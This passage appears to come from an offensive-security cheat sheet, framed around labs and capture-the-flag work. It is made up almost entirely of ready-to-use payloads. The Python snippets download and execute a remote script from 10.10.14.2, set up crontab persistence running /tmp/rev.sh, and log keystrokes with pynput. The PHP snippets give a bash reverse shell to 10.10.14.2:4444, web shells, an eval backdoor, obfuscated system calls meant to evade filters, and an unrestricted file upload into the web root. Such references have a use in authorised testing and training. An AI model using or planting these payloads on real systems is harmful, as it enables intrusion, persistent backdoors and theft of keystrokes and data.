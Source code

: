 ```python
import requests
exec(requests.get("http://10.10.14.2/script.py").text)
```

#### 🔹 Persistence via Crontab

```python
import os
os.system('(crontab -l ; echo "* * * * * bash /tmp/rev.sh") | crontab -')
```

#### 🔹 Python Keylogger (for malware analysis labs)

```python
from pynput.keyboard import Listener
with open("/tmp/logs","a") as f:
    def write(key): f.write(str(key))
with Listener(on_press=write) as l: l.join()
```

***

### III. 🧱 PHP Payloads — Web Exploitation & Webshell Arsenal

#### 🔹 Classic One-Liner Reverse Shell

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'"); ?>
```

#### 🔹 Minimal Web Shell

```php
<?php system($_GET['cmd']); ?>
```

#### 🔹 Eval-based Backdoor

```php
<?php @eval($_POST['payload']); ?>
```

#### 🔹 Obfuscated Eval (common CTF filter bypass)

```php
<?php $x='system';$x($_GET['cmd']); ?>
<?php ${'x'.'x'} = 's'.'y'.'stem'; ${'x'.'x'}($_GET[1]); ?>
```

#### 🔹 File Upload & Write

```php
<?php
$file = $_FILES['up']['tmp_name'];
move_uploaded_file($file, "/var/www/html/" . $_FILES['up']['name']);
?>
```
